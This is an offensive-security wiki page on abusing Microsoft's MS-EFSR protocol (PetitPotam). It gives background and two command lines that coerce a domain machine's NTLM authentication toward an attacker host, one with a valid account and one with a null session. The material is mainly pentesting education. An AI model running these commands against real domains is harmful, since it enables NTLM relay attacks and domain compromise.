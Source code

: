 # MS-EFSR abuse

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network \([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr)\) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc` and `\pipe\lsarpc` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the SYSTEM account into creating an executable file of the attacker's choosing, hence provifing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Gilles LIONEL](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication.

{% hint style="warning" %}
At the time of writing \(2021/07/20\), this bug has not been addressed by Microsoft.
{% endhint %}

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" \(available in C and Python\) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

{% hint style="info" %}
**Nota bene**: the coerced NTLM authentication will be made through SMB. This is important because it restricts the possibilites of [NTLM relay](../lm-and-ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMBv2 to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse \(printbug\)](printerbug.md), a NULL session could potentially be used to trigger that bug \(if allowed by the target\). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
```
{% endhint %}

## References

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam/blob/main/Petitpotam.py" %}


